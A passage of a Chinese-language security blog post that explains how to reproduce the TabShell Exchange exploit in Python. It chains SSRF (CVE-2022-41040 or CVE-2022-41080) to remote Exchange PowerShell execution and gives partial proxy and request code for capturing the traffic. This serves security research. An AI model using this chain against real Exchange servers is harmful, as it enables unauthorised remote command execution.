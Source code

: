 ```
    boundary = re.search("boundary=[" '|\\"](.*)[' '|\\"]', r.headers["content-type"]).group(1)  # type: ignore[union-attr] # This should not happen
    response_content = encryption.unwrap_message(r.content, to_unicode(boundary))  # type: ignore[union-attr] # This should not happen
    response_text = to_string(response_content)
```

完整代码的输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-1-9/2-1.png)

## 0x04 TabShell利用细节
---

TabShell的公开POC使用Powershell连接Exchange服务器，执行特殊构造的Exchange Powershell命令触发，为了便于分析中间的通信数据，可以采用以下方法抓取中间的明文数据：

### 1.通过Flask建立本地代理服务器

方法可参考之前的文章[《ProxyShell利用分析3——添加用户和文件写入》](https://3gstudent.github.io/ProxyShell%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%903-%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7%E5%92%8C%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)

### 2.通过Flask实现SSRF

SSRF漏洞可以选择CVE-2022-41040或者CVE-2022-41080

### 3.在Flask中输出中间的通信数据

关键代码示例：

```
while True:
    r = session.post(powershell_url, data=data, headers=req_headers, verify=False)
    print("post data:")
    print(data)
    
    if r.status_code == 200:
        print("[+]" + r.headers["X-CalculatedBETarget"])
        break
    else:    
        print("[-]" + r.headers["X-CalculatedBETarget"])

print("recv data:")
print(r.content)
```

根据通信数据，我们可以很容易写出TabShell的Python实现代码，完整代码的输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-1-9/2-2.png)

## 0x05 小结
---

本文介绍了通过Python实现远程执行Exchange Powershell命令的细节，分享使用Python实现TabShell利用的心得。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




